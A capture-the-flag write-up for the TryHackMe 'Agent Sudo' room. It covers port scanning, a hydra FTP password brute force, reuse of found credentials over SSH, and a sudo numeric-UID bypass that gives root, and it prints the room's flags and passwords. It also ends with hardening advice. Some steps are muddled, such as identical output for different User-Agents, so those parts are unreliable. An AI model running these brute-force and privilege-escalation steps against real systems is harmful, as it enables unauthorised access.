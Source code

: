 ```yaml
---
title: "TryHackMe: Agent Sudo"
author: NeoVirex
categories: [TryHackMe]
tags: [thm, CTF, Penetration Testing, Deep Sea Server, Underwater Infrastructure, Cyber Espionage, Network Exploitation, Secret Server Investigation]
render_with_liquid: false
media_subpath: /images/tryhackme/tryhackme_agent_sudo/
image:
  path: room_img.png
description: "You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth. You’ve discovered a clandestine server buried beneath the ocean’s depths. As Agent Sudo, your mission is to infiltrate its defenses, bypass advanced security measures, and expose the hidden truths concealed within."
---
```

# Agent Sudo

**Created:** June 5, 2025 03:22 AM

---

## Overview

* **Target:** `ctf.thm` (10.10.206.100)
* **Objective:** Gain initial access, escalate privileges, and retrieve both user and root flags.
* **Author:** NeoVirex

---

## 1. Reconnaissance & Service Enumeration

### 1.1 RustScan & Nmap

```bash
rustscan -a ctf.thm -- -A
```

* **Open Ports:** 21 (FTP), 22 (SSH), 80 (HTTP)
* **Services Identified:**

  * `21/tcp` – vsftpd 3.0.3
  * `22/tcp` – OpenSSH 7.6p1 (Ubuntu)
  * `80/tcp` – Apache 2.4.29 (Ubuntu)

Detailed Nmap snippets:

```text
PORT   STATE SERVICE    VERSION
21/tcp open  ftp        vsftpd 3.0.3
22/tcp open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
80/tcp open  http       Apache httpd 2.4.29 (Ubuntu)
```

---

## 2. Web Application Analysis

The HTTP service hosts a message that reacts to the `User-Agent` header:

```bash
# Using α custom User-Agent “C”
curl -A "C" -L http://ctf.thm
```

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

* When `User-Agent` is “R”, access is denied. Only `C` is allowed because the response addresses “chris”.

```bash
# Using a correct User-Agent “chris” to retrieve the private message
curl -A "chris" -L http://ctf.thm
```

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

* **Note:** This confirms that “chris” is a valid username for FTP.

---

## 3. Brute-Force FTP Credentials

We discovered from the web hint that **“chris”** is likely a valid FTP username and that the password is weak.

```bash
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.206.100
```

* **Successful Login:** `chris:crystal`

---

## 4. Exploit & Initial Access (FTP)

### 4.1 Connect to vsftpd as chris

```bash
ftp chris@ctf.thm
# Password: crystal
```

* **Directory Listing:**

  ```text
  To_agentJ.txt   cute-alien.jpg   cutie.png
  ```

* **Download Files:**

  ```bash
  get To_agentJ.txt
  get cute-alien.jpg
  get cutie.png
  ```

* **Inspect To\_agentJ.txt:**

  ```text
  Hi james,

  Glad you find this message. Your login password is hackerrules!

  Don't ask me why the password look cheesy; ask agent R who set this password for you.

  Your buddy,
  chris
  ```

  * We now have credentials for user **james**: password `hackerrules`.

---

## 5. SSH Access as james

### 5.1 SSH into the Machine

```bash
ssh james@ctf.thm
# Password: hackerrules
```

* **Landing in james’s Home Directory:**

  ```text
  $ ls
  Alien_autospy.jpg  user_flag.txt

  $ cat user_flag.txt
  b03d975e8c92a7c04146cfa7a5a313c7
  ```

* **User Flag:** `b03d975e8c92a7c04146cfa7a5a313c7`

---

## 6. Privilege Escalation

### 6.1 Checking sudo Privileges

```bash
sudo -l
# [sudo] password for james: hackerrules
```

```
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User james may run the following command on agent-sudo:
    (ALL, !root) /bin/bash
```

* **Implication:** james can run **`/bin/bash`** as any user except root.

### 6.2 Exploit via Numeric User ID Trick

* Unix numeric user ID `-1` (or `0xffffffff`) is interpreted as **UID 0 (root)**.
* We can trick `sudo` to spawn a root shell:

```bash
sudo -u \#$((0xffffffff)) /bin/bash
```

* **Check Effective User:**

  ```bash
  # whoami
  root
  ```

---

## 7. Lateral Movement & Root Flag

```bash
cd /root
ls
# root.txt

cat root.txt
```

```
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine.

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R
```

* **Root Flag:** `b53a02f55b57d4439e3341834d70c062`

---

## 8. Cleanup & Recommendations

1. **Remove downloaded key/materials** and **logout**:

   ```bash
   exit             # drop back to james
   rm To_agentJ.txt cute-alien.jpg cutie.png
   ```

2. **Secure Misconfigurations:**

   * Avoid predictable passwords; enforce strong password policies.
   * Do not expose FTP with default configurations—vsftpd should not allow weak authentication.
   * Restrict `sudo` usage; do not grant “run-as-any-user-except-root” privileges.
   * Use absolute paths in `sudo` configurations to prevent numeric UID abuse.

3. **General Advice:**

   * Keep systems patched and services up to date.
   * Monitor for unauthorized login attempts and enforce multi-factor authentication where possible.

---

**End of Writeup**

<style>
.center img {display:block; margin:auto;}
.wrap pre{white-space: pre-wrap;}
</style>
